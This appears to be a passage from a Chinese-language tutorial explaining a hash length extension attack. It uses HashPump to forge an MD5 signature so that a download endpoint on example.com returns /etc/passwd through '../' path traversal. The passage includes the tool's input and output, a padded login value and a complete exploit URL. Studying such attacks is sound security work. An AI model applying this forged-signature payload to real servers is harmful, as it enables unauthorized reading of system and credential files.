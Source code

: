 在不知道 `salt` 具体的值，但知道其长度的情况下，能否下载根目录下的 `/etc/passwd` 文件呢？

假设 `salt` 的长度为 6，先列出原问题的已知参数：

```
login = "1"
file = "test.pdf"
length(login || file) = 9 Byte = 72 bit
length(salt) = 6 Byte = 48 bit
hash = MD5(salt || "1test.pdf") = f26e1f5aa1094662caf3a6f8b774e824
```

再列出待解问题的未知参数：

```
login = ？
file = "../../../../../../etc/passwd"
length(login) = ？
length(salt || "1test.pdf") = 15 Byte = 120 bit
hash = MD5(salt || login || "../../../../../../etc/passwd") = ？
```

由上述参数的变化可知，若改变 `login` 的值后，还能计算出对应的签名，即可达到**任意文件下载**的目的。根据漏洞原理，利用 0x03 中的 HashPump 工具可解出上述未知参数：

```
Input Signature: f26e1f5aa1094662caf3a6f8b774e824
Input Data: 1test.pdf
Input Key Length: 6
Input Data to Add: ../../../../../../etc/passwd
ee3dc297d57bd7bf82ccf0ae20e35c6b
1test.pdf\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x00\x00\x00\x00\x00\x00\x00../../../../../../etc/passwd
```

可见，在成功构造 `login` 后，并重新计算出新的签名，结果如下所示：

```
login = "1test.pdf\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x78\x00\x00\x00\x00\x00\x00\x00"
file = "../../../../../../etc/passwd"
length(login) = 58 Byte = 464 bit
length(salt || "1test.pdf") = 15 Byte = 120 bit
hash = MD5(salt || login || "../../../../../../etc/passwd") = ee3dc297d57bd7bf82ccf0ae20e35c6b
```

注意，需要将上述 `login` 的值进行 URL 编码，以适应浏览器的请求格式，最终构造下载链接的 URL 即可下载 `/etc/passwd` 文件：

`http://example.com/download?login=1test.pdf%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%78%00%00%00%00%00%00%00&file=../../../../../../etc/passwd&hash=ee3dc297d57bd7bf82ccf0ae20e35c6b`

**哈希长度扩展攻击的限制条件较多，现实中并不常见，下面关于上述漏洞利用场景作几点说明：**

1. 对于不同文件的校验哈希值，必须由同一个 `salt` 值产生的；
2. Web 服务器必须有访问其他目录的权限，否则无法访问根目录下的 `/etc/passwd` 文件；
3. `../` 是在命令行下返回上级目录的操作符。由于文件下载目录不在根目录下，所以要通过多个 `../` 操作返回根目录。注意，在根目录下返回上级目录，仍然是根目录。

